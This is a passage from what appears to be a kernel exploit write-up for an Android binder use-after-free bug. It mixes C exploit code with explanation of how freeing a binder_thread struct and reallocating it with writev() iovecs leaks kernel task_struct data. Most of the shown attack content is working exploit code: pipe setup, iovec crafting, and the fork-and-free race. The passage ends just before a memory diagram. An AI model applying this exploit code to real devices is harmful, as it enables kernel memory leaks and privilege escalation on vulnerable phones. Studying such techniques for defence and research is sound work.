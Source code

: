 ```c
        printf("\t[-] failed to allocate a pipe\n");
        return -1;
    }

    printf("\t[+] changing pipe size to 0x1000\n");
    if (fcntl(READ_PIPE, F_SETPIPE_SZ, PAGE_SIZE) == -1) {
        printf("\t[-] unable to change the pipe capacity\n");
        exit(-1);
    }

    /* used later to unblock the write and avoid deadlocking */
    printf("\t[+] allocating the dummy page\n");
    dummy_page = map_dummy_page();

    if(!dummy_page) {
        printf("\t[-] unable to mmap the dummy page\n");
        exit(-1);
    }

    printf("\t[+] crafting iovecs to leak task_struct\n");
    iovec[IOVEC_OVERLAP_INDEX].iov_base = dummy_page;
    iovec[IOVEC_OVERLAP_INDEX].iov_len = PAGE_SIZE;
    iovec[IOVEC_OVERLAP_INDEX + 1].iov_base = (void *) 0x41414141;
    iovec[IOVEC_OVERLAP_INDEX + 1].iov_len = PAGE_SIZE;
    [...]
}
```

Now the interesting part comes in, we use `fork()` to create a child process, which will sleep for 2 seconds, in the meanwhile the parent process frees the `binder_thread` struct, and calls `writev()`, which will allocate 25 iovecs to make the kernel allocate them in kmalloc-512, since every `iovec` struct is 16 bytes, we'll allocate 400 bytes and  reallocate the `binder_thread` struct which is 408 bytes. We only initialize the [10] and [11] ones so that kernel won't process the previous ones, which aren't useful to exploitation.

```c
pid_t child = fork();
if (!child) {
    /* used to avoid race conditions */
    sleep(2);
    [...]
}

/* free binder_thread struct */
binder_thread_free();

/* reallocates binder_thread with iovecs */
nBytesWritten = writev(WRITE_PIPE, iovec, IOVEC_SIZE);
```

Now iovecs overlapped `binder_thread` struct, that's how it looks like in memory:
